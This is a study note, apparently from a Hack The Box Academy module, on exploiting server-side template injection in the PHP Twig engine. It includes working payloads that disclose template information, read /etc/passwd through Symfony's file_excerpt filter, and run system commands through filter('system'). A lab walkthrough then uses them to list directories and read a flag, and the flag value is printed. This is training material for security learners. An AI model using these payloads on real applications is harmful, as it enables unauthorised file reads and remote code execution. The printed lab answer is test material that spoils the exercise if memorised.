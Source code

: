 ```yaml
---
sticker: lucide//book-template
---
```


# Exploiting SSTI - Twig

In this section, we will explore another example of SSTI exploitation. In the previous section, we discussed exploiting SSTI in the `Jinja` template engine. This section will discuss exploiting SSTI in the `Twig` template engine. Like in the previous section, we will only focus on the SSTI exploitation and thus assume that the SSTI confirmation and template engine identification have already been done in a previous step. Twig is a template engine for the PHP programming language.

***

### Information Disclosure

In Twig, we can use the `_self` keyword to obtain a little information about the current template:

```twig
{{ _self }}
```

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_2_1.png)

However, as we can see, the amount of information is limited compared to `Jinja`.

***

### Local File Inclusion (LFI)

Reading local files (without using the same way as we will use for RCE) is not possible using internal functions directly provided by Twig. However, the PHP web framework [Symfony](https://symfony.com/) defines additional Twig filters. One of these filters is [file\_excerpt](https://symfony.com/doc/current/reference/twig_reference.html#file-excerpt) and can be used to read local files:

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_3.png)

***

### Remote Code Execution (RCE)

To achieve remote code execution, we can use a PHP built-in function such as `system`. We can pass an argument to this function by using Twig's `filter` function, resulting in any of the following SSTI payloads:

```twig
{{ ['id'] | filter('system') }}
```

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_2_3.png)

***

### Further Remarks

This module explored exploiting SSTI in the `Jinja` and `Twig` template engines. As we have seen, the syntax of each template engine is slightly different. However, the general idea behind SSTI exploitation remains the same. Therefore, exploiting an SSTI in a template engine the attacker is unfamiliar with is often as simple as becoming familiar with the syntax and supported features of that particular template engine. An attacker can achieve this by reading the template engine's documentation. However, there are also SSTI cheat sheets that bundle payloads for popular template engines, such as the [PayloadsAllTheThings SSTI CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md).

## Question

***

![](Pasted%20image%2020250212132712.png)

We can use the following payload to test if the page is vulnerable:

```twig
{{ _self }}
```

![](Pasted%20image%2020250212141640.png)

Nice, let's get RCE:

```twig
{{ ['id'] | filter('system') }}
```

![](Pasted%20image%2020250212141706.png)

Ok, let's read the `/` directory:

```twig
{{ ['ls /'] | filter('system') }}
```

![](Pasted%20image%2020250212141749.png)

We found the flag:

```twig
{{ ['cat /flag.txt'] | filter('system') }}
```

![](Pasted%20image%2020250212141817.png)

Flag is:

```
HTB{5034a6692604de344434ae83f1cdbec6}
```
